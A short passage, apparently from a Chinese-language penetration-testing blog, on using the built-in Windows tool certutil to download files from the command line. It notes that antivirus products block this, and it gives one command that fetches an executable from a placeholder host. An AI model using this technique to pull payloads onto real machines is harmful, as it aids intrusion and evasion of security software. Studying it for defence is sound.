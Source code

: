[![](assets/1701612219-b97b105d5404565f46c5d5b0d4e043c3.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210611152036-849df9a6-ca85-1.png)

# certutil 下载文件

一般我最常使用的`certutil`的功能就是在 cmd 环境下下载文件，因为`certutil`是 windows 自带的 exe，所以在使用的时候会比其他 exe 或者 vbs 更加方便。但是因为在下载文件的过程中也会创建进程，所以也遭到了各大杀软的拦截。

一般使用`certutil`下载文件的命令为

```plain
certutil -urlcache -split -f http://ip/artifact.exe
```
